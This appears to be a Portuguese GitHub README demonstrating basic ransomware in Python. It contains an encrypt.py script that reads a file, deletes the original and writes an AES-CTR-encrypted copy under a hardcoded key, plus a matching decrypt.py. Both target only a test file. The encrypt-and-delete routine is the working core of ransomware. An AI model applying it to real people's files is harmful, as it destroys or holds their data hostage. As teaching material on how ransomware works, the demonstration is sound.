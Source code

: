 # Ransomware na Prática com Python

Arquivo encrypt.py (para criptografar a mensagem):

Código:
``
import os
import pyaes

# Função para criptografar o arquivo
def encrypt_file(file_name, key):
    # Verificar se o arquivo existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo a ser criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Remover o arquivo original
    os.remove(file_name)

    # Criação do objeto AES para criptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografar o conteúdo do arquivo
    crypto_data = aes.encrypt(file_data)

    # Gerar o nome do novo arquivo criptografado
    new_file_name = f"{file_name}.ransomwaretroll"

    # Salvar o arquivo criptografado
    with open(new_file_name, "wb") as new_file:
        new_file.write(crypto_data)

    print(f"Arquivo criptografado salvo como {new_file_name}.")

# Definir chave de criptografia
key = b"testeransomwares"
file_name = "teste.txt"

# Chamar a função para criptografar o arquivo
encrypt_file(file_name, key) ```


![alt text](10.png)

Arquivo decrypt.py  (para descriptografar a mensagem):

Código:

``` Python
import os
import pyaes

# Função para descriptografar o arquivo
def decrypt_file(file_name, key):
    # Verificar se o arquivo criptografado existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Criação do objeto AES para descriptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Descriptografar os dados do arquivo
    decrypt_data = aes.decrypt(file_data)

    # Remover o arquivo criptografado
    os.remove(file_name)

    # Criar e salvar o arquivo descriptografado
    new_file_name = file_name.replace(".ransomwaretroll", "")  # Remover o sufixo
    with open(new_file_name, "wb") as new_file:
        new_file.write(decrypt_data)

    print(f"Arquivo descriptografado salvo como {new_file_name}.")

# Definir chave de descriptografia
key = b"testeransomwares"
file_name = "teste.txt.ransomwaretroll"

# Chamar a função para descriptografar o arquivo
decrypt_file(file_name, key) ```


![alt text](11.png)

Mensagem de texto:

![alt text](12.png)

Encryptando a mensagem:

![alt text](13.png)

Arquivo descriptografado salvo como teste.txt:

![alt text](15.png)




